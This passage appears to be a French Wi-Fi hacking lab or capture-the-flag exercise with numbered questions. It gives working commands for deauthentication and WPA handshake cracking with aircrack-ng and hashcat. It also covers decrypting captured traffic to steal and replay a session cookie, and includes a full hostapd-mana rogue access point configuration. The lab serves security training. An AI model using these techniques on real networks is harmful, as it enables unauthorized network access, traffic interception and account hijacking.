 Le réseau `wifi-mobile` est protégé par une clé de type WPA PSK (Pre-Shared Key), obtenez la clé en effectuant une attaque de `deauth` permettant de désauthentifier un client légitime, afin de capturer le `handshake`, cassez le handshake avec la wordlist `rockyou` :
`aircrack-ng capture.cap -w rockyou.txt`

11. Quel est la clé Wi-Fi du réseau `wifi-mobile` ?

Avec le handshake et la clé Wi-Fi il est possible de déchiffrer à la volée le trafic Wi-Fi sans se connecter au réseau, pour cela on peut utiliser l'outil `airdecap-ng` :
`airdecap-ng -e wifi-mobile -p {password} capture.cap`

Laissez tourner cette capture quelques minutes puis ouvrez le fichier généré `capture-dec.cap`, celui-ci contient l'ensemble du trafic déchiffré, si vous regardez bien vous devriez y trouver un `cookie`, notez-le bien !

Connectez-vous au réseau Wi-Fi, essayez d'accéder à http://192.168.2.1/ puis insérez le cookie dans le stockage de votre navigateur, actualisez la page et constatez le flag.

12. Quel est le flag obtenu sur l'interface web `192.168.2.1` ?

13. Est-ce que nous sommes sur un réseau Wi-Fi disposant d'isolation des clients ?

14. Identifiez les autres clients connectés (leurs adresses IP et ports ouverts), trouvez un flag.

# Un réseau inexistant

Dans la phase de `reconnaissance` on peut constater que certains clients diffusent des `probes` au nom de `wifi-offices` cependant nous ne captons pas ce réseau. Mais on peut potentiellement obtenir la clé de ce réseau en créant un faux point d'accès avec l'outil `hostapd-mana` et ainsi obtenir le handshake lorsque le client va tenter de s'y connecter, puis tenter de casser le handshake.

Créez un fichier `hostapd.conf` :
```
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=wifi-offices
mana_wpaout=hostapd.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```

Puis lancez la commande `hostapd-mana hostapd.conf` mais faites un `CTRL+C` lorsque vous verrez le terme `AP-STA-POSSIBLE-PSK-MISMATCH`, le fichier contenant le handshake sera sauvegardé sous le nom `hostapd.hccapx`, tentez de le casser avec `hashcat` :
`hashcat -a 0 -m 2500 hostapd.hccapx rockyou.txt --force`

Si cela ne fonctionne pas avec le mode `2500`, vous pouvez convertir le hash au format `22000` et le casser à nouveau avec hashcat :
```
hcxhash2cap --hccapx=hostapd.hccapx -c aux.pcap
hcxpcapngtool aux.pcap -o hash.22000
sudo hashcat -a 0 -m 22000 hash.22000 rockyou.txt --force
```
